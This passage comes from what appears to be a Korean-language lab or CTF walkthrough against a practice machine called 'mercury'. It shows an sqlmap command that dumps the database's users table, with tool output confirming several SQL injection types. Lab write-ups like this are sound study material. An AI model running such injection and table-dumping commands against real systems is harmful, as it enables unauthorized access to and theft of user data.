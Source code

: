 - 테이블 정보 확인하는 방법
![[Pasted image 20240930102559.png]]
![[Pasted image 20240930102624.png]]

- users 테이블의 데이터를 확인
![[Pasted image 20240930102655.png]]
```
┌──(jaeho㉿Attacker)-[~]
└─$ sudo sqlmap -u http://192.168.56.110:8080/mercuryfacts/1 -D mercury -T users --dump
[sudo] password for jaeho: 
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.5#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:18:06 /2024-09-29/

[21:18:06] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] y
[21:18:12] [INFO] testing connection to the target URL
got a 301 redirect to 'http://192.168.56.110:8080/mercuryfacts/1/'. Do you want to follow? [Y/n] y
[21:18:14] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:18:14] [INFO] testing if the target URL content is stable
[21:18:14] [WARNING] URI parameter '#1*' does not appear to be dynamic
[21:18:15] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[21:18:16] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[21:18:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:18:26] [WARNING] reflective value(s) found and filtering out
[21:18:27] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[21:18:27] [INFO] testing 'Generic inline queries'
[21:18:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[21:18:27] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[21:18:28] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[21:18:28] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[21:18:28] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[21:18:28] [INFO] URI parameter '#1*' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[21:18:28] [INFO] testing 'MySQL inline queries'
[21:18:28] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[21:18:28] [WARNING] time-based comparison requires larger statistical model, please wait................ (done)  
[21:18:38] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[21:18:38] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:18:48] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
```